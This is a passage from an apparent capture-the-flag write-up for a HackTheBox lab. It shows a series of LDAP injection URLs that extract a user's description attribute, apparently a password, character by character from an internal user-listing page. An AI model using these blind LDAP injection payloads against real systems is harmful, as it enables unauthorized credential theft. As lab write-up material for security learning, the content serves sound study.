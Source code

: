 Now we approach with last modified url from above,

```
http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=*)
```

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*1*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*1*)</a></p></figcaption></figure>

<figure><img src=".gitbook/assets/image (2).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4*)</a></p></figcaption></figure>

<figure><img src=".gitbook/assets/image (3).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4q*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4q*)</a></p></figcaption></figure>

<figure><img src=".gitbook/assets/image (4).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4Q*)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4Q*)</a></p></figcaption></figure>

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption><p><a href="http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4QP96Bv)">http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*4QP96Bv)</a></p></figcaption></figure>

